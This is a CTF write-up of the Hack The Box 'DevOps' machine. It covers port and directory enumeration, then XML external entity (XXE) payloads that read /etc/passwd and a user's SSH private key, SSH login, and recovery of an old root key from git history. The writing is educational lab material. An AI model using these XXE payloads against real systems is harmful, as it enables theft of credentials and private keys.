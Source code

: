 ```yaml
---
layout: post
title: "Hack The Box: Devops write-up"
date: 2018-10-14
excerpt: "XXE is cool, a git repository could be as well... Wanna have a look at this box?"
tags: [Pentesting, Hack The Box, XXE, RSA, GIT, SSH]
categories: [Hack The Box]
comments: true
feature: /assets/posts_details/Devops/images/header.png
---
```


# Hack The Box: DevOps machine write-up

This machine was quite interesting and not so difficult, as it was based on an XML external entity attack which lead to user and then just a basic .git inspection, which is similar to some CTF challenges I had previously done. Its ip is 10.10.10.91.

### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA nmap/initial 10.10.10.91
```

And the result was:

```sh
# Nmap 7.01 scan initiated Wed Sep  5 23:42:28 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.91
Nmap scan report for 10.10.10.91
Host is up (0.89s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 42:90:e3:35:31:8d:8b:86:17:2a:fb:38:90:da:c4:95 (RSA)
|_  256 b7:b6:dc:c4:4c:87:9b:75:2a:00:89:83:ed:b2:80:31 (ECDSA)
5000/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  5 23:42:40 2018 -- 1 IP address (1 host up) scanned in 12.14 seconds
```

So we find that there is a web server listening on port 5000, which is not the default port 80. Upon visiting the webpage, we get the following:

*Initial message*

![Img](/assets/posts_details/Devops/images/initial.png "Img")

Nothing to check, so I decide to run background recognition with dirb:

```sh
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Sep  6 00:12:15 2018
URL_BASE: http://10.10.10.91:5000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.91:5000/ ----

+ http://10.10.10.91:5000/feed (CODE:200|SIZE:546263)                          
+ http://10.10.10.91:5000/upload (CODE:200|SIZE:347)                           

-----------------
END_TIME: Thu Sep  6 00:22:05 2018
DOWNLOADED: 4612 - FOUND: 2
```

Something interesting!

*Upload page*

![Img](/assets/posts_details/Devops/images/upload.png "Img")

Looks like there is a test API to upload XML files... Definitely suspicious, we're on the right track. The file needs to have three elements: Author, Subject and Content, so let's craft a new XML file to test the functionality.

At first I uploaded this file:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<file>
	<Author>John, Doe</Author>
	<Subject>Hello</Subject>
	<Content>Computers</Content>
</file>
```

Which resulted in the following output:

*Output page*

![Img](/assets/posts_details/Devops/images/output.png "Img")

### Exploit

This reminded me of XXE, so I modified the file a bit to try to access the ``/etc/passwd`` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

If this worked, the resulting page would list the contents of the file. Let's see the output:

*Output page (second test)*

![Img](/assets/posts_details/Devops/images/passwd.png "Img")

And indeed it works!

From there we can extract the following path: ``/home/roosa``, which now we're going to use to get the RSA private key used in the SSH service we saw before. The new file will thus be:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<file>
	<Author>John, Doe</Author>
	<Subject>&xxe;</Subject>
	<Content>Computers</Content>
</file>
```

And we get roosa's private [key](roosa.key). Then, we just log in through ssh with the following command: ``ssh -i roosa.key roosa@10.10.10.91`` (we must remember to change file permissions to 600, otherwise this won't work).

And we're in an can read the hash in ``user.txt``:

*Getting user hash*

![Img](/assets/posts_details/Devops/images/user.png "Img")

### Root

Once logged in, we notice some interesting directories: ``deploy`` and ``work``. I decide to have a look at them. It turned out ``deploy`` was just the webpage we saw earlier, but then I found something in ``work``:

```console
roosa@gitter:~$ ls -al work
total 12
drwxrwxr-x  3 roosa roosa 4096 Mar 21 07:17 .
drwxr-xr-x 22 roosa roosa 4096 May 29 10:32 ..
drwxrwx---  5 roosa roosa 4096 Mar 21 05:29 blogfeed
roosa@gitter:~$ ls -al work/blogfeed
total 28
drwxrwx--- 5 roosa roosa 4096 Mar 21 05:29 .
drwxrwxr-x 3 roosa roosa 4096 Mar 21 07:17 ..
drwxrwx--- 8 roosa roosa 4096 Mar 26 06:13 .git
-rw-rw---- 1 roosa roosa  104 Mar 19 09:24 README.md
drwxrwx--- 3 roosa roosa 4096 Mar 19 09:31 resources
-rwxrw-r-- 1 roosa roosa  180 Mar 21 05:29 run-gunicorn.sh
drwxrwx--- 2 roosa roosa 4096 Mar 26 06:43 src
```

There is a git repo! That means we can check previous stages of the project.

*git log output*

![Img](/assets/posts_details/Devops/images/git-log.png "Img")

I decide to go back to the second commit because it says that it contains the `key for feed integration from tnerprise backend`, which looks promising.

As we're in a public environment with lots of people I won't do ``git checkout {commit}``, which would restore all files to that point in history for everyone. Instead, I used ``git diff {commit}`` to get the changes made between that commit and the one I'm on.

*git diff output*

![Img](/assets/posts_details/Devops/images/git-diff.png "Img")

Voilà! We just discovered that our ``roosa.key`` (highlighted in green) replaced a previous key (in red). Let's recover it!

I didn't know where to use it, but seeing it was an SSH key I decided to use it again, this time with root user:

*Using the key to log in as root*

![Img](/assets/posts_details/Devops/images/root.png "Img")

And that's all! I hope you enjoyed and learned something!

---

*Diego Bernal Adelantado*
